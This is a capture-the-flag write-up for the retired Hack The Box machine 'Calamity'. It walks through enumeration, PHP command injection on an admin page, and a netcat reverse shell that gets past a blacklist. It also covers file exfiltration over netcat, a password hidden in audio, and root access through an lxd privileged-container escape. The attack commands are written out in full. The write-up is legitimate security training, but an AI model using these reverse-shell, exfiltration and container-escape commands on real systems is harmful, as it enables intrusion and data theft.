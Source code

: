# Calamity

This is the write-up for the box Calamity that got retired at the 20th January 2018.
My IP address was 10.10.14.16 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.27    calamity.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/calamity.nmap 10.10.10.27
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6:46:31:9c:b5:71:c5:96:91:7d:e4:63:16:f9:59:a2 (RSA)
|   256 10:c4:09:b9:48:f1:8c:45:26:ca:f6:e1:c2:dc:36:b9 (ECDSA)
|_  256 a8:bf:dd:c0:71:36:a8:2a:1b:ea:3f:ef:66:99:39:75 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Brotherhood Software
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

On the web page there is an image and some text that says the e-store is under development and nothing interesting in the source code.
Lets look for hidden paths with **Gobuster**:
```markdown
gobuster -u http://10.10.10.27 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html
```

It finds the index page _/uploads_ directory that has no content and _/admin.php_ that displays a login prompt.
Looking at the HTML source code of that page, it has a comment that says:
```markdown
<!-- password is:skoupidotenekes-->
```

It is possible to log in with the username _admin_ and the found password and it forwards us to a message:

![Web message](https://kyuu-ji.github.io/htb-write-up/calamity/calamity_web-1.png)

This page parses HTML code and if it gets PHP code it also works.
```markdown
<?php system("whoami"); ?>
```

So we have Code Execution to start a reverse shell:
```markdown
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 9001 >/tmp/f"); ?>
```

The listener on my IP and port 9001 start a connection and instantly closes it. Lets look into the files in the _/home_ if there is something interesting:
```markdown
<?php system("find /home"); ?>
```

The user _xalvas_ has a file called _intrusions_ that blacklists **Netcat** and other potential intrusions.
To get a reverse shell, we try to run `nc` from the RAM disk _/dev/shm_ to get around the blacklisting:

Copy `nc` to _/dev/shm_ and rename it:
```markdown
<?php system("cp /bin/nc /dev/shm/test"); ?>
```

Make it executable:
```markdown
<?php system("chmod 755 /dev/shm/test"); ?>
```

Execute the `test` binary:
```markdown
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| /dev/shm/test 10.10.14.16 9001 >/tmp/f"); ?>
```

Now the listener on my IP and port 9001 starts a reverse shell that does not instantly close and we are the user _www-data_.

## Privilege Escalation

### Privilege Escalation to user

The home folder of _xalvas_ has many different files that should be analyzed on the local machine, so we download them:
```markdown
# Local machine:
nc -lvnp 1234 > rick.wav
nc -lvnp 1234 > xouzouris.mp3
nc -lvnp 1234 > recov.wav

# Box
/dev/shm/test 10.10.14.16 1234 < /home/xalvas/alarmclocks/rick.wav
/dev/shm/test 10.10.14.16 1234 < /home/xalvas/alarmclocks/xouzouris.mp3
/dev/shm/test 10.10.14.16 1234 < /home/xalvas/recov.wav
```

After listening to them, they don't give any hints or unusual sounds.
The files _rick.wav_ and _revoc.wav_ are almost the same file size:
```markdown
-rw-r--r-- 1 root root 3196724 Jan  6 18:32 recov.wav
-rw-r--r-- 1 root root 3196668 Jan  6 18:25 rick.wav
-rw-r--r-- 1 root root 2645839 Jan  6 18:25 xouzouris.mp3
```

To compare the wave files, the **Python module audiodiff** will help:
```python
import audiodiff

audiodiff.audio_equal('recov.wav','rick.wav')
```

The output is _False_ which means even though the audio files sound the same, they have different sound waves.
When having the same audio file several times but with different waves, it is a good idea to inverse one of the files and play it against the other audio file to detect hidden data. If someone plays the exact inverse of a sound file, they cancel each other out and we can't hear anything.
In this case the sound waves are different, so somewhere in the audio we should hear something.
Lets do this with any audio editing program like **Audacity**.

Open _rick.wav_ and import _recov.wav_:

![Audacity open files](https://kyuu-ji.github.io/htb-write-up/calamity/calamity_audacity-1.png)

Highlighting one of the waves and inverting them against each other:

![Audacity invert waves](https://kyuu-ji.github.io/htb-write-up/calamity/calamity_audacity-2.png)

After listening to it, it starts with some numbers and at 16 seconds to the end we hear:
```markdown
Your password is 185...
```

So it starts at 16 seconds and loops from second 0 and the whole sentence is:
```markdown
Your password is 18547936..*
```

Trying this password for the user _xalvas_ on SSH and it works:
```markdown
ssh xalvas@10.10.10.27
```

### Privilege Escalation to root

To get any attack surface on the box, executing any **Linux Enumeration** script will be helpful:
```markdown
wget http://10.10.14.16 | bash LinEnum.sh
```

The user _xalvas_ is in the group _lxd_ which means that **LXC (Linux Containers)** is running on this box that is used for some virtualization and containerization on Linux.
To exploit this, we create a small _Alpine Linux_ with the [LXD Alpine Linux image builder](https://github.com/saghul/lxd-alpine-builder).
```markdown
./build-alpine.sh -a i686
```

This creates a tar file that we upload to the Calamity box:
```markdown
scp alpine-v3.11-i686-20200106_1943.tar.gz xalvas@10.10.10.27:
```

Now import this image into LXC:
```markdown
lxc image import alpine-v3.11-i686-20200106_1943.tar.gz --alias alpine
```

With `lxc image list` we can check if the image got imported. The next step is to create the machine with the name _privesc_:
```markdown
lxc init alpine privesc -c security.privileged=true
```

Using `lxc list` to check if the machine got created. Now it needs a hard drive that gets mounted on _/mnt/root_:
```markdown
lxc config device add privesc host-root disk source=/ path=/mnt/root/
```

Starting the container and after that executing _/bin/sh_:
```markdown
lxc start privesc

lxc exec privesc /bin/sh
```

Now we are in the container as root and mounted the file system to _/mnt/root_ where we can get the flag!
